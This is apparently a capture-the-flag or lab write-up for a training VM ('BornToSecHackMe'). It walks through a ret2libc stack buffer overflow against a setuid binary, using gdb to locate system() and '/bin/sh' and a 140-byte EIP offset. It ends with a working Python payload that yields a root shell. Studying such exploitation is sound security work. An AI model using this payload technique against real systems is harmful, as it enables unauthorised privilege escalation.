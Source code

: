 # ret2libc

<!--toc:start-->
- [ret2libc](#ret2libc)
  - [Get addresses](#get-addresses)
  - [Exploitation](#exploitation)
<!--toc:end-->

For the buffer overflow part we can use another method called [ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).

## Get addresses

Get address of `system`:

```bash
(gdb) p system
```

Get address of `/bin/sh`:

```bash
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
```

Get saved eip offset:

```bash
(gdb) r $(python -c 'print "A" * 64')
Starting program: /home/zaz/exploit_me $(python -c 'print "A" * 64')

Breakpoint 1, 0x0804842c in main ()
(gdb) x/64xw $esp
0xbffff680:     0xbffff690      0xbffff8e9      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x08048400      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00100000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff700:     0xb7fed280      0x00000000      0x08048449      0xb7fd0ff4
0xbffff710:     0x08048440      0x00000000      0x00000000      0xb7e454d3
(gdb) i f
Stack level 0, frame at 0xbffff720:
 eip = 0x804842c in main; saved eip 0xb7e454d3
 Arglist at 0xbffff718, args: 
 Locals at 0xbffff718, Previous frame s sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
```

Buffer start at `0xbffff690` and eip start at `0xbffff71c`.

```bash
(gdb) p 0xbffff71c - 0xbffff690
$2 = 140
```

The offset is 140. We can exploit now.

## Exploitation

With the previous informations we can compose our exploit:

1- fill up to the offset of saved eip with some chars
2- write the address of `system`
3- write return address of system (we don't return but we need to fill it)
4- write the address of `/bin/sh`

We get this:

```bash
python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])'
```

Try to use this exploit:

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`BBBBX
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

